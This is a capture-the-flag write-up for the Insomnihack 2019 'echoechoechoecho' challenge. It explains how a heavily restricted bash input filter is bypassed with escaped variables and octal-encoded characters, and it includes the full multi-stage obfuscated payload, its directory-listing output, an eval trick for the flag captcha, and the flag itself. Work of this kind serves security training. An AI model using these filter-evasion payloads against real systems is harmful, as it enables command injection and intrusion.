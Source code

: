 # insomnihack CTF 2019
## echoechoechoecho - 216 , 18 solves
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)
### The Challenge
Input `thisfile` gives us the source code, the input will be appended several `|bash` and be executed by `bash`. Only very few special characters are allowed:
```python
def check_input(payload):
    if payload == 'thisfile':
        bye(open("/bin/shell").read())

    if not all(ord(c) < 128 for c in payload):
        bye("ERROR ascii only pls")

    if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
        bye("ERROR invalid characters")

    # real echolords probably wont need more special characters than this
    if payload.count("+") > 1 or \
            payload.count("'") > 1 or \
            payload.count(")") > 1 or \
            payload.count("(") > 1 or \
            payload.count("=") > 2 or \
            payload.count(";") > 3 or \
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

    return payload
```
Payload can only contain `(` , `)` , `;` , `+` , `$` , `\` , `=` , ` ` , `'` and `echo`, and limited number of use of them.
### What we can use
* `$$` - bash process id.
* `$((1+2))` - 3.
### Variables
Thus it can not contain any lower case aphebat, but only `echo`.
* `$a` - `$echo`
* `$b` - `$echoecho`
* `$c` - `$echoechoecho`
* `echo=$$; echo $echo` -> `8`
### Bypass the limited number of use
We can store the special character in the variable with using backslash. The payload `echo=\=; echo echoecho$echo$$` will output `echoecho=8`. Then we can pass it to `bash` use `|bash`. Other example: `echo=\'; echo echo $echo$$$echo` -> `echo '8'`.
### Generate any bumber
In the seccond `bash`, `$$` is equal to `10` and we can generate `1` by `$(($$==$$))`,`$((10==10))`.For now, we can use `1` and `10` to caculate any number.
### To char
* `echo $'\154\163'` -> `ls`
### We are almost done!
```
echo=\=;echo echoecho$echo\\\; echoechoecho$echo\\\( echoechoechoecho$echo\\\) echoechoechoechoecho$echo\\\+ echoechoechoechoechoecho$echo\\\'\; echo echo echo \\\\$\\\\\$echoechoechoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\$echoechoechoechoechoecho
```
* `|bash`
```
echoecho=\; echoechoecho=\( echoechoechoecho=\) echoechoechoechoecho=\+ echoechoechoechoechoecho=\'; echo echo echo \\$\\$echoechoechoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\$echoechoechoechoechoecho
```
* `|bash`
```
echo echo \$\'\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))+$((10==10))))\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))))\'
```
* `|bash`
```
echo $'\154\163'
```
* `|bash`
```
ls
```
* `|bash`
```
bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
### There is a captcha `get_flag`
I follow the solution of captcha of <a href="https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/">LosFuzzys</a>:
```bash
eval "echo \$(($(cat /tmp/a)))"|/get_flag|(read l;read l;echo $l>/tmp/a;cat;)
```
### Finally the flag
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`